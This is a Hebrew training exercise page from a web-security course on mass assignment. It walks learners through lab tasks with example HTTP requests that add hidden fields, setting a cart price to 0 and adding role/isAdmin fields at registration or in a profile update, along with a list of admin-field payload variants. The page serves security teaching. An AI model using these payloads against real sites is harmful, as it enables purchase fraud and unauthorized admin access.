

repository: AmitPinchasi/amittech · page: מחקר-אתרים-מתקדם/6 - תנאי מרוץ ולוגיקה עסקית/6.4 - השמה המונית - Mass Assignment/6.4 - השמה המונית - Mass Assignment - תרגיל/index.html · generator: mkdocs

# השמה המונית - Mass Assignment - תרגול

## תרגיל 1 - גילוי שדות נסתרים (Apprentice)

**רקע:**
אפליקציית חנות מקוונת עם API שמחזיר מידע על מוצרים. המטרה: לגלות שדות נסתרים שניתן לשנות ולרכוש מוצר במחיר מופחת.

**שלבים:**

1. גשו לדף המוצר ולכדו את הבקשות ב-Burp
2. מצאו את בקשת ה-API שמחזירה פרטי מוצר:

```http
GET /api/products/1 HTTP/1.1
```

3. בדקו את התגובה - האם יש שדות שלא מוצגים בinterface?
4. נסו לשלוח בקשת `PATCH` או `PUT` עם שינוי לשדה הנסתר:

```http
PATCH /api/products/1/cart HTTP/1.1
Content-Type: application/json

{"quantity": 1, "price": 0}
```

5. השלימו את הרכישה ובדקו אם המחיר השתנה

## תרגיל 2 - הסלמת הרשאות דרך הרשמה (Practitioner)

**רקע:**
אפליקציה שבה ניתן להירשם כמשתמש רגיל. המטרה: להירשם כאדמין.

**שלבים:**

1. בצעו הרשמה רגילה ולכדו את הבקשה ב-Burp:

```http
POST /register HTTP/1.1
Content-Type: application/json

{"username": "test", "email": "test@test.com", "password": "pass123"}
```

2. בדקו את פרטי המשתמש שנוצר:

```http
GET /api/me HTTP/1.1
```

3. חפשו שדות רגישים בתגובה (כמו `role`, `isAdmin`)
4. נסו להירשם שוב עם שדות נוספים:

```http
POST /register HTTP/1.1
Content-Type: application/json

{"username": "hacker", "email": "h@h.com", "password": "pass123", "role": "admin"}
```

5. אם לא עובד, נסו וריאציות:

```http
{"role": "admin"}
{"isAdmin": true}
{"is_admin": true}
{"user_type": "admin"}
{"access_level": "administrator"}
{"permissions": ["admin"]}
```

## תרגיל 3 - הסלמה דרך עדכון פרופיל (Practitioner)

**רקע:**
אפליקציה שמאפשרת עדכון פרופיל. המטרה: לשנות את ההרשאות שלכם.

**שלבים:**

1. התחברו ובצעו עדכון פרופיל רגיל (שינוי שם, למשל)
2. לכדו את הבקשה:

```http
PUT /api/profile HTTP/1.1
Content-Type: application/json
Cookie: session=abc123

{"name": "New Name"}
```

3. הוסיפו פרמטרים נוספים:

```http
PUT /api/profile HTTP/1.1
Content-Type: application/json
Cookie: session=abc123

{"name": "Hacker", "role": "admin", "isVerified": true, "balance": 99999}
```

4. בדקו את התגובה ואת פרטי המשתמש - מה השתנה?
5. נסו לגשת לאזור ההנהלה: `/admin`
